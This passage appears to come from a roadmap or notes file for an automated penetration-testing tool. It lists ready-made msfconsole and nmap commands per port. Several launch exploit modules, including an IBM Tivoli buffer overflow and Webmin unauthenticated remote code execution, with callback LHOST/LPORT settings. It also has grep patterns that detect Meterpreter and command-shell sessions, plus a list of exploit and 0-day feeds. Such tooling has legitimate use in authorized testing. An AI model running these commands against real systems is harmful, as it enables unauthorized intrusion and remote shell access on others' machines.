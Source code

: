         - `msfconsole -q -x "use gather/java_rmi_registry; set RHOST "$TARGET"; set RPORT 8001; run; exit;"`
        - `msfconsole -q -x "use scanner/misc/java_rmi_server; set RHOST "$TARGET"; run; exit;"`
    - 9495/ibm:
        - `msfconsole -q -x "use exploit/windows/http/ibm_tivoli_endpoint_bof; setg RHOST "$TARGET"; setg RHOSTS "$TARGET"; set SSL false; setg LHOST "$MSF_LHOST"; setg LPORT "$MSF_LPORT"; run; exit;"`
    - 10000/webmin:
        - `msfconsole -q -x "use auxiliary/admin/webmin/file_disclosure; setg RHOST "$TARGET"; setg RHOSTS "$TARGET"; run; set SSL True; run; exit;"`
        - `msfconsole -q -x "use exploit/web/defcon_webmin_unauth_rce; setg LHOST "$MSF_LHOST"; setg LPORT "$MSF_LPORT"; setg RHOST "$TARGET"; setg RHOSTS "$TARGET"; run; set SSL True; run; exit;"`
    - 16992/amt:
        - `msfconsole -q -x "use auxiliary/scanner/http/intel_amt_digest_bypass; setg RHOSTS \"$TARGET\"; run; back; exit;"`
    - 27017/mongodb:
        - `nmap -sV -p 27017 -Pn -v --script-timeout 90 --script=mongodb*`
    - 27018/mongodb:
        - `nmap -sV  -p 27018 -Pn -v --script-timeout 90 --script=mongodb*`
    - 27019/mongodb:
        - `nmap -sV  -p 27019 -Pn -v --script-timeout 90 --script=mongodb*`
    - 28017/mongodb:
        - `nmap -sV  -p 28017 -Pn -v --script-timeout 90 --script=mongodb*`
    - 49180/java_rmi_server:
        - `msfconsole -q -x "use auxiliary/scanner/misc/java_rmi_server; setg RHOSTS \"$TARGET\"; set RPORT 49180; run; back; exit;"`
    - Vulnerable grep code:
        ```sh
        VULNERABLE_METASPLOIT=$(egrep -h -i -s "may be vulnerable|is vulnerable|IKE response with leak|File saved in")
        VULNERABLE_SHELLSHOCK=$(egrep -h -i -s "The following URLs appear to be exploitable:")
        SHELLED=$(egrep -h -i -s "Meterpreter session|Command executed|File(s) found:|Command Stager progress|File uploaded|Command shell session")
        ```

- Generate wordlists based on website content [TODO]

- Exploit search sources RSS feeds [TODO]
    - CVE Mitre
    - NIST
    - Exploit-DB
    - AttackerKB
    - Rapid7
    - Google
    - SecurityFocus
    - 0day.today
    - Security-Database
    - PacketStorm
    - Shodan
    - Vulners
    - Sploitus
    - Github
    - YouTube
    - Twitter
    - FullDisclosure
    - Certstation

- RSS feeds updates for 0-days exploits [FUTURE]

- AI integration [FUTURE]

- Feed nmap XML into metasploit [NOPE]:
    - `msfconsole -x "workspace -a $WORKSPACE; workspace $WORKSPACE; db_import $LOOT_DIR/nmap/nmap*.xml; hosts; services; exit;" | tee $LOOT_DIR/notes/msf-$WORKSPACE.txt`